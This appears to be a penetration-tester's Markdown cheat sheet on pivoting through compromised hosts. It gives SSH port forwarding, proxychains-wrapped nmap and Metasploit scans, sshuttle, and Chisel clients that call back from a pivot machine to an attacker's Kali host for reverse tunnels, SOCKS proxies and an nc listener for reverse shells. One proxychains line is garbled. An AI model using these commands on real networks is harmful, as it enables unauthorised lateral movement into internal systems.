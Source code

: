 # SSH Tunneling + SSHuttle and Chisel


Used for pivoting

## Local port forwarding
```bash
ssh -v -N -L localPort:targetIp:targetPort user@sshGateway <-i private_key>
```

## Remote port forwarding
* Below is the preparation that is needed to be done on the SSH Server(Pivot)
```bash
sudo echo "GatewayPorts clientspecified" >> /etc/ssh/sshd_config
sudo systemctl restart ssh
```
* Command:
```bash
ssh -R sshGatewayIp:sshGatewayPort:localIp:localPort user@sshGateway
ssh -R 127.0.0.1:2222:127.0.0.1:22 ubuntu@11.22.33.44
```

## Dynamic port forwarding with proxychains
* Has limitations: Produces inaccurate results (i.e. nmap)[^2][^3][^4]

* Proxychains preparation (Change localPort):
```bash
# Normal
sudo echo "socks4 127.0.0.1 localPort" >> /etc/proxychains.conf
# For Chisel (below)
sudo echo "socks5 127.0.0.1 1080" > /etc/proxychains.conf
```
* Command to establish connection(Basic command is just "-D"):
```bash
ssh -NfD localPort user@sshGateway
```
* Make use of proxychains:
```bash
proxychains nmap -v --open -sT -Pn -T4 -p21,22,23,25,80,139,443,445,3389,8000,8080 10.0.1.0/24 #-sT -Pn for proxychains
proxychains msfconsole 
proxychains targetIP -u user -p password -g 90%
proxychains ssh -NfD 2ndlocalPort user@2ndLevelPhasesshGateway
proxychains firefox
```

## Dynamic port forwarding with SSHuttle
* **Recommended** and does not need root on pivot machine)
* Has limitations: Does not really work with nmap
   * Use a [static nmap binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap) instead on the compromised host
   
```bash
sshuttle -v -r user@sshGateway network/netmask

# Using public key authentication:
sshuttle -v -r user@sshGateway network/netmask -e 'ssh -i /path/to/private_key'
```

## Chisel
* **Recommended** and does not need root on pivot machine) [^5]
* Alternative for SSH(Local, Remote and Dynamic) especially on pivoting machines
   * Built on Go
   * Has ready made binary releases on Github which works on a lot of Operating Systems[^6]
   
```bash
# Server (On your attacking machine[Kali])
./chisel server -v -p 8000 --reverse

# Port Forwarding (Commonly on the 1st compromised machine [Pivot Machine])
## Listen on Kali 4444/tcp, forward to 10.10.10.240 port 80
./chisel client -v <YOUR_KALI_IP>:8000 R:4444:10.10.10.240:80

# Remote Forwarding (for reverse connections [i.e. reverse_tcp])
## (Commonly on the 1st compromised machine [Pivot Machine])
## The command below will direct any traffic it receives on 3333/tcp to your Kali 3333/tcp
./chisel client -v <YOUR_KALI_IP>:8000 3333:127.0.0.1:3333
## After the command above, execute the command below on your Kali machine or something similar (.e. exploit/multi/handler)
nc -lnvp 3333

# Socks proxy  (Commonly on the 1st compromised machine [Pivot Machine])
./chisel client -v <YOUR_KALI_IP>:8000 R:socks
# After the command above, make sure to do follow the "Dynamic port forwarding with proxychains" instructions above


```


[^1]: [not so pro](https://blog.notso.pro/2019-10-24-tactical-debriefing1/)
[^2]: [MrW0r57](https://mrw0r57.github.io/2020-05-31-linux-post-exploitation-10-4/)
[^3]: [CodeProject - Grant Curell](https://www.codeproject.com/tips/634228/how-to-use-proxychains-forwarding-ports)
[^4]: [NetSec](https://netsec.ws/?p=278)
[^5]: [Download from Github](https://github.com/jpillora/chisel)
[^6]: [0xdf](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html)
